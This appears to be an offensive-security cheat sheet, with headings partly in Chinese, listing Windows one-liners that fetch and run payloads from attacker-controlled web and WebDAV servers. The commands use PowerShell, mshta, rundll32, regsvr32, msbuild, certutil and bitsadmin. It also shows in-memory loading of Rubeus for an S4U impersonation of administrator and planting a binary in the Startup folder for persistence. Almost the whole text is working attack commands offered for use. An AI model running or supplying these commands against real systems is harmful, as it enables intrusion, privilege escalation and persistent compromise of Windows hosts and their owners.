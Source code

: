 #### PowerShell
  	从HTTP服务器
  	>powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

	只下载
	(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")
	Invoke-WebRequest "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"

	下载并执行带参数的Rubeus
	$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/Rubeus.exe')
	$assem = [System.Reflection.Assembly]::Load($data)
	[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

	从程序集中执行特定方法
	$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/lib.dll')
	$assem = [System.Reflection.Assembly]::Load($data)
	$class = $assem.GetType("ClassLibrary1.Class1")
	$method = $class.GetMethod("runner")
	$method.Invoke(0, $null)
	从webdav服务器
	>powershell -exec bypass -f \\webdavserver\folder\payload.ps1
#### CMD
  	>cmd.exe /k < \\webdavserver\folder\batchfile.txt
#### Cscript / Wscript
  	>cscript //E:jscript \\webdavserver\folder\payload.txt
#### Mshta
  	>mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
	>mshta http://webserver/payload.hta
	>mshta \\webdavserver\folder\payload.hta
#### Rundll32
  	>rundll32 \\webdavserver\folder\payload.dll,entrypoint
	>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
#### Regasm / Regsvc
  	>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
#### Regsvr32
  	>regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
	>regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
#### Odbcconf
  	>odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
#### Msbuild
  	>cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
#### Certutil
  	>certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
	>certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
#### Bitsadmin
  	>bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe